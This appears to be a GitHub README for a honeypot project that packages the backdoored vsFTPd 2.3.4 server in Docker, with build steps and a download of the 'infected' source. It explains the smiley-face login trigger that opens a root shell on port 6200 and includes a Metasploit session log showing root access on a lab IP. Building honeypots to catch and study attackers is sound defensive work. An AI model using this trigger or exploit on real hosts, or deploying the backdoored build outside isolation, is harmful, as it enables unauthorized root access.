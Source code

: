 ### vsFTPd 2.3.4

As this is in the Honey Net branch, you should assume that it is meant for creation of Honey Pots only. 

You should never expose this build in your actual network unless you take proper precautions.

This is a build for the original backdoored vsFTPd 2.3.4 software.

The way the exploit works is by sending any login string with a smiley face at the end such as:

```
USER nks:)
PASS noclue
```
This will break out a backdoor on port 6200 which you can then connect to and get access to the system.

The way it was backdoored was with rogue functions in 2 .C files and then re-uploaded to the original hosting website, until someone found it.

Since this is a well known vulnerability, it will do well in a Honey Pot, more specifically, it will be useful to filter out typical scanners from someone that is actually trying to exploit your network. 

When this kind of action is logged in whatever solution you want to use, you can blacklist that IP before it continues attacking the rest of your network. 

Since attackers usually go for weaker targets first, they should focus on this kind of application before anything else, which will give you ample time to prepare and blacklist. This can also serve for re-search purposes, as depending on your logging software, you can log what the attacker is doing once they gain access.

INSTRUCTIONS:

1.Follow the link and instructions on my Docker account:

https://hub.docker.com/r/nksnksnks/vsftpd.2.3.4-vuln-osvdb-73573/ 

https://store.docker.com/community/images/nksnksnks/vsftpd.2.3.4-vuln-osvdb-73573

Pull the image from here with:

```
docker pull nksnksnks/vsftpd.2.3.4-vuln-osvdb-73573
```

If this is successfull, skip to step 4 and add the appropriate image name or better yet follow the instructions on the Link above.

If for some reason you can't pull and wan't do to it manually, follow the steps below.

2. Download all of the files from the repository, including the vulnerable application.

The way I do this that is most efficient is right clicking on the Download button for example at the .tar.gz app and clicking on Copy Link Location.

Then you can go to your server and download it via:

```
wget https://github.com/n-ks/Honey-Net/raw/master/FTP/vsFTPd%202.3.4/vsftpd-2.3.4-infected.tar.gz (Re-Do this yourself, the URL here might change)
```

3. Once you have all of your files in one location, extract the .tar.gz with:

```
tar xvf vsftpd-2.3.4-infected.tar.gz
```

4. Everything you need should be there, now can you build your Docker Image:

```
docker build -t vsftpd.2.3.4 .
```

Note that since it will install,update,upgrade stuff this can take a while. (Some errors are also normal, especially in the manual build)

4. After your image is successfully built, you can raise it with:

```
docker run -itd -p 21:21 -p 6200:6200 vsftpd.2.3.4
```

Note that if you do not want this application to be vulnerable and only want attackers to try and break in and not actually succeed you can remove -p 6200:6200. (The actual backdoor port) So basically the Docker will be exploited and will open a 6200 port but not to your host system.

5. To enter your new container and install whatever logging system you want, you can do the following:

```
docker exec -u 0 -it <container-name> bash
```

6. Congratulations, you have a working vulnerable app.

___NOTE: The OS on which this was tested was Ubuntu 16.04 LTS with Docker CE installed.___

___NOTE 2: The image used from Docker Hub is Debian based, so any logging solution that you can think of that will work with Debian will probably work for you, only thing to keep in mind is the ports you'll need to add for said solution.___

___NOTE 3: Make sure you limit your containers resources and security so it doesn't spread on your host in any way.___

Result:

```
msf > use exploit/unix/ftp/vsftpd_234_backdoor
msf exploit(unix/ftp/vsftpd_234_backdoor) > show options

Module options (exploit/unix/ftp/vsftpd_234_backdoor):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   RHOST                   yes       The target address
   RPORT  21               yes       The target port (TCP)


Exploit target:

   Id  Name
   --  ----
   0   Automatic


msf exploit(unix/ftp/vsftpd_234_backdoor) > set RHOST 192.168.1.3
RHOST => 192.168.1.3
msf exploit(unix/ftp/vsftpd_234_backdoor) > exploit

[*] 192.168.1.3:21 - Banner: 220 (vsFTPd 2.3.4)
[*] 192.168.1.3:21 - USER: 331 Please specify the password.
[+] 192.168.1.3:21 - Backdoor service has been spawned, handling...
[+] 192.168.1.3:21 - UID: uid=0(root) gid=0(root) groups=0(root)
[*] Found shell.
[*] Command shell session 1 opened (192.168.1.4:43985 -> 192.168.1.3:6200) at 2018-05-30 11:58:15 +0200

id
uid=0(root) gid=0(root) groups=0(root)
^C
Abort session 1? [y/N]  y

[*] 192.168.1.3 - Command shell session 1 closed.  Reason: User exit
msf exploit(unix/ftp/vsftpd_234_backdoor) > 
```

I've used one of the more general exploits to get in, with MSF, which was successfull.
